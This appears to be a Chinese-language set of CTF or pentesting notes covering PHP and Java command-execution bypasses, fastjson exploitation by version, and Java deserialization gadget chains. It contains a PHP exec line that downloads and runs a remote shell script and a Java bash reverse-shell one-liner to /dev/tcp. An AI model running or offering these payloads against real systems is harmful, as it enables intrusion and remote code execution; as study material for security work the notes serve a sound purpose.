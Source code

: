 ```php
exec('wget http://192.168.127.131/shell.txt -O /tmp/shell.php;php -f /tmp/shell.php');
```

ssti绕过

https://blog.csdn.net/m0_73185293/article/details/131695528

JAVA URLClassLoader过滤了http和file协议可以用jar协议绕过

审代码，看到有读文件，然后根据布尔值来读的，一定要想起竞争！遇到很多次了

### 单参数exec绕过

一般用的是单参数exec

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240913125109102.png)

https://blog.csdn.net/whatday/article/details/107098353

这篇文章讲了java单参数exec反弹shell应该使用`Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/127.0.0.1/8888 0>&1");`



## fastjson

fastjson目标不出网，<=1.2.24下打BCEL，需要回显可以打内存马

目标出网 ，<=1.2.47，打JNDI

1.2.68+commons-io能写文件

github上有payload项目，我所知的唯一缺少的是fastjson>1.2.36+有h2依赖能打jdbc attack





## Gadget

一个gadget衔接合集，仅统计常用衔接链

Hessian2反序列化和Kryo、FST反序列化会触发hashMap.put

compare通常伴随着任意getter调用（因为compare需要逐项取值对比）

BadAttributeValueExpException.readObject -> toString

XString.equals -> toString

HashMap.readObject() -> AbstractMap.equals -> UIDefault$TextAndMnemonicHashMap.get -> toString

EventListenerList.readObject() -> tostring



(JDK8u65) AnnotationInvocationHandler.invoke -> get

(jdk7u21/8u20 rce) AnnotationInvocationHandler.equalsImpl -> invoke 

PriorityQueue.readObject -> compare

